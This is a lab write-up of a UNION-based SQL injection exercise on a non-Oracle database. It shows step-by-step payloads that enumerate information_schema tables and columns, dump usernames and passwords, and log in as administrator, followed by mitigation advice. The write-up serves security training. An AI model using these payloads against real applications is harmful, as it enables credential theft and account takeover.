






# SQL Injection Attack - Listing the Database Contents on Non-Oracle Databases

## Overview

This lab demonstrates how a **UNION-based SQL Injection** vulnerability can be leveraged to enumerate the contents of a non-Oracle database. By exploiting an injectable parameter, an attacker can discover database tables, identify sensitive columns, retrieve usernames and passwords, and finally authenticate as the administrator.

Unlike Oracle databases, most non-Oracle database management systems expose metadata through the **information_schema** database, allowing attackers to enumerate tables and columns if SQL injection exists.

---

## Objective

The objectives of this lab were :

- Identify a UNION-based SQL Injection vulnerability.
- Determine the correct number of columns.
- Verify which columns support string data.
- Enumerate database tables.
- Identify the users table.
- Enumerate the columns inside the users table.
- Extract usernames and passwords.
- Login as the administrator.
- Successfully solve the lab.

---

## Vulnerability Background

When user-controlled input is concatenated directly into SQL queries without proper sanitization or parameterized queries, attackers can inject arbitrary SQL statements.

Non-Oracle databases expose metadata using the following schema:

- `information_schema.tables`
- `information_schema.columns`

These metadata tables allow attackers to enumerate:

- Existing tables
- Existing columns
- Database structure

Once a users table is located, credentials can often be extracted.

---

## Methodology

### Step 1 - Capture the Request

The category filter request was intercepted and sent to Burp Suite Repeater.

```
GET /filter?category=Accessories
```



---

### Step 2 - Verify UNION Injection

A UNION SELECT payload was injected to confirm SQL injection and verify that string data could be reflected.

```sql
'+union+select+'a',NULL--
```



This confirmed :

- UNION queries were accepted
- The first column accepted string data

---

### Step 3 - Enumerate Database Tables

Since this lab uses a non-Oracle database, table names were extracted from `information_schema.tables`.

Payload:

```sql
'+union+select+table_name,+NULL+from+information_schema.tables--
```



Numerous tables were returned.

Among them was the application table:

```
users_ebtatp
```

---

### Step 4 - Enumerate Columns

Next, column names were extracted from `information_schema.columns`. So...


```sql
'+union+select+column_name,NULL+from+information_schema.columns+where+table_name='users_ebtatp'--
```



The response revealed two important columns :

```
username_rysyik
password_ikyuyd
```

---

### Step 5 - Dump Credentials

With the table and column names identified, the stored credentials were extracted.

Payload :

```sql
'+union+select+username_rysyik,password_ikyuyd+from+users_ebtatp--
```

and the response contained all usernames and passwords.

---

### Step 6 - Login as Administrator

Using the extracted administrator credentials, authentication was performed through the application's login page.



The administrator account was successfully accessed.

The lab was marked as solved.



---

## Attack Flow

```text
  Capture Request
        ⇓
Identify SQL Injection
        ⇓
Determine UNION Compatibility
        ⇓
Enumerate Tables
(information_schema.tables)
        ⇓
Locate Users Table
        ⇓
Enumerate Columns
(information_schema.columns)
        ⇓
Locate Username & Password Columns
        ⇓
Extract Credentials
        ⇓
Login as Administrator
        ⇓
   Lab Solved
```
---

## Impact

If exploited in a production environment, this vulnerability could allow attackers to :

- Enumerate database structure
- Discover hidden application tables
- Dump user credentials
- Compromise administrator accounts
- Escalate privileges
- Access sensitive customer information
- Perform account takeover
- Potentially compromise the entire application

---

## Security Recommendations

To mitigate this vulnerability :

- Use parameterized queries (Prepared Statements).
- Avoid dynamic SQL query concatenation.
- Implement strict server-side input validation.
- Restrict access to metadata tables where possible.
- Store passwords using strong hashing algorithms such as Argon2 or bcrypt.
- Deploy a Web Application Firewall (WAF).
- Monitor database queries for abnormal UNION operations.

---

## Conclusion

This lab demonstrated how a UNION-based SQL Injection vulnerability in a non-Oracle database can expose the entire database structure through the `information_schema` schema. By systematically enumerating tables and columns, sensitive credentials were extracted from the application's users table, enabling authentication as the administrator.

Highlighting the severe consequences of unsanitized SQL queries and reinforces the importance of secure coding practices such as prepared statements, proper input validation, least-privilege database permissions, and secure password storage to defend against SQL Injection attacks.